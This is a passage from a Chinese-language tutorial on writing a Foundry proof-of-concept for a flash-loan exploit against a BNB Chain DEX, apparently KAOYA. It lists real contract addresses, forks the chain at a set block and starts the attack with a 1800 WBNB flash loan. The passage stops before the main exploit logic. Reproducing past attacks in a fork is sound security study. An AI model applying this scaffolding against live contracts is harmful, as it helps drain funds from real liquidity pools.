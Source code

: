 
### 具体准备工作3： 找出涉及的DEX的Router接口和Token信息。


```solidity
interface IDPP{
    function flashLoan(uint baseAmouont, uint quoteAmount, address assetTo, bytes calldata data) external;
}
interface KAOYA_ROUTER is Uni_Router_V2{
    function getTokenInPair(address pair,address token) external view returns (uint);
}
contract ContractTest is Test{
    IDPP dpp = IDPP(0x0fe261aeE0d1C4DFdDee4102E82Dd425999065F4);

    IWBNB WBNB = IWBNB(payable(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c));//因为它有payable的fallback
    IERC20 BUSD = IERC20(0xe9e7CEA3DedcA5984780Bafc599bD69ADd087D56);
    IERC20 KY = IERC20(0xa8a33e365D5a03c94C3258A10Dd5d6dfE686941B);
    SimpleToken TA;
    SimpleToken TB;

    address KAOYA_FACTORY_ADDRESS = 0xbFB0A989e12D49A0a3874770B1C1CdDF0d9162aA;
    KAOYA_ROUTER kaoyaRouter = KAOYA_ROUTER(0x879EAD67C92ec2bFa70fa9d157F500B7b31b64AB);
    Uni_Router_V2 pancakeRouter = Uni_Router_V2(0x10ED43C718714eb63d5aA57B78B54704E256024E);
    
    function setUp() public {
        vm.createSelectFork("bsc",20705000-1);

        vm.label(address(WBNB), 'WBNB');
        vm.label(address(BUSD), 'BUSD');
        vm.label(address(KY), 'KY');

    }
}
```


## 具体写POC逻辑

### step1：闪电贷 1800 个WBNB.




```solidity
    function testExploit() public {
        vm.deal(address(this),1e18);
        TA = new SimpleToken('TokenA', 'TA');
        TB = new SimpleToken('TokenB'   , 'TB');
        vm.label(address(TA), 'TA');
        vm.label(address(TB), 'TB');
        TA.mint(10000e18);
        TB.mint(100e18);
        dpp.flashLoan(1800e18, 0, address(this), new bytes(1));
        finalInterest();
    }
    function finalInterest() public {
        console.log('finalInterest');
        emit log_named_decimal_uint("mybalance WBNB" , WBNB.balanceOf(address(this)), WBNB.decimals());
        emit log_named_decimal_uint("mybalance BUSD" , BUSD.balanceOf(address(this)), BUSD.decimals());
        emit log_named_decimal_uint("mybalance KY" , KY.balanceOf(address(this)), KY.decimals());
    }
```
